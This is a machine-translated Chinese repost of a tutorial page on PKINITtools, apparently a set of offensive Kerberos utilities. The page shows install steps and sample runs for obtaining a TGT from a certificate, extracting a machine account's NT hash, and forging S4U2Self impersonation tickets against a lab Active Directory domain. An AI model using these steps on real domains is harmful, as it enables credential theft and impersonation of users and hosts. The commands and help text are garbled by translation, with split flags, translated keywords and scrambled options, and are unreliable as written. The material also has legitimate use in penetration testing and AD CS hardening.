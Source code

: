 # PKINITtools:用于 Kerberos PKINIT 和中继到 AD CS 的工具

> 原文：<https://kalilinuxtutorials.com/pkinittools/>

[![](img//8a92e345545f0e7df833ae3833a1cc45.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh_oWrkQftQSh1QA_EY7MwDBeK5izG53AsiJ4f4KuOGrtGeEsoYZ1gy3PFgNxzA9xL9-ORRv-NO0k_77XqqN2Vvyh8dN2Yox_2srDCyAzPBvwY0ODQb6XBZdFD0AZnw50yik_0BZPNLdKhbM_M8IirprbwUDWMYevpEKLqDwvJR_GwMaPJ9sT6_CAff=s720)

PKINITtools 存储库包含一些使用 PKINIT 和证书的实用程序。
工具是在 minikerberos 和 impacket 上构建的。附带更多上下文的博文:[https://dirkjanm . io/NTLM-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

**安装**

这些工具仅与 Python 3.5+兼容。从 GitHub 克隆存储库，安装依赖项，然后就可以开始了:

git 克隆 https://github.com/dirkjanm/PKINITtools
pip 3 安装 impacket minikerberos

为此，建议使用 virtualenv。

**工具**

**gettgtpkinit.py**

使用 PFX 文件(作为文件或作为 base64 编码的 blob 或用于 cert+key 的 PEM 文件)请求 TGT。这使用了 Kerberos PKINIT，并将 TGT 输出到指定的 ccache 中。它还会打印出 AS-REP 加密密钥，这是 getnthash.py 工具可能需要的。使用示例:

**(PKINITtools)user @ localhost:~/PKINITtools $ python gettgtpkinit . py-h
用法:gettgtpkinit . py[-h][-cert-pfx file][-pfx-pass password][-pfx-BASE64 BASE64][-cert-pem file][-key-PEM file][-DC-IP DC _ IP][-v]
域/用户名 ccache
使用 Kerberos PKINIT 和任一 PEM 请求 TGT –帮助显示此帮助信息并退出
-cert-pfx 文件 pfx 文件
-pfx-pass password PFX 文件密码
-pfx-base64 base64 PFX 文件作为 BASE64 字符串
-cert-pem 文件 pem 格式的证书
-key-pem 文件 PEM 格式的私钥文件
-dc-ip DC_IP DC IP 或主机名用作 KDC
-v， –verbose
(PKINITtools)user @ localhost:~/PKINITtools $ python gettgtpkinit . py testsegment.local/s2019dc\$-cert-pfx ~/impacket-py3/cert . pfx-pfx-pass hoi s 2019 DC . ccache
2021-07-27 21:25:24，299 minikerberos 信息从文件中加载证书和密钥
2021-07-27 27 21:25:24，316 mini**

**getn hash . py**

使用 Kerberos U2U 为您自己提交 TGS 请求。这将包括 PAC，而 PAC 又包含 NT 哈希，您可以使用用于您的特定 TGT 的 AS-REP 密钥对其进行解密。这真的很神奇。这个工具要求在你的`**KRB5CCNAME**` env 变量中有一个来自 PKINIT 的 TGT。用法:

(PKINITtools)**user @ localhost:~/PKINITtools $ python getnthash . py-h
Impacket v 0 . 9 . 23–版权所有 2021 SecureAuth Corporation
用法:getnthash . py[-h]-KEY KEY[-DC-IP Address][-debug]identity
位置参数:
identity domain/username
可选参数:
-h，–help 显示此帮助消息并从 gettgtpkinit.py 退出
-key KEY 作为 REP key 如果允许，使用目标参数
-debug 中指定的域部分(FQDN)打开
(PKINITtools)调试输出 user @ localhost:~/PKINITtools $ export krb 5c name = s 2019 DC . ccache
(PKINITtools)user @ localhost:~/PKINITtools $ python getnthash . py testsegment.local/s2019dc\$-key 5769 dff 44 ebea a5 37 b4e 9 f 7005 f 63063 ffd 7 c 198 b 747 AE 77**

**gets4uticket.py**

使用 Kerberos S4U2Self 请求一个在您已获得证书的主机上有效的服务票证。然后，该票证可用于与原始主机进行交互。这只需要该主机的机器帐户有一个 TGT。这个 TGT 应该在您在`**kerberos_connection_url**`中指定的 ccache 文件中。本例中唯一可接受的`**kerberos_connection_url**`是包含 ccache 文件的文件，例如`**kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local**`。SPN 应该是您正在模拟的主机上的一个服务名，您不能将它用于委托攻击(因为它没有实现 S4U2Proxy，所以已经有很多工具可以实现它)。用法:

**(PKINITtools)user @ localhost:~/PKINITtools $ python Gets 4 uticket . py-h**
用法:Gets 4 uticket . py[-h][-v]kerberos _ connection _ URL SPN target user ccache
获取一个模拟给定用户的 S4U2self 票证
位置参数:
kerberos_connection_url
以下格式的 Kerberos 目标字符串 Kerberos+ccache://domain \ user:file . ccache @。重要提示:必须使用服务器的主机名，而不是 IP！！！targetuser
ccache ccache 文件将 TGT 票证存储在
中可选参数:
-h，–help 显示此帮助消息并退出
-v，–verbose
(PKINITtools)user @ localhost:~/PKINITtools $ python gets 4 uticket . py Kerberos+ccache://test segment . local \ s 2019 DC \ $:s 2019 DC . ccache @ s 2016 DC . test segment . local CIFS/s 2019 DC . test segment . local @ local
2021-07-28 10:09:13696 minikerberos 信息完成！

[**Download**](https://github.com/dirkjanm/PKINITtools)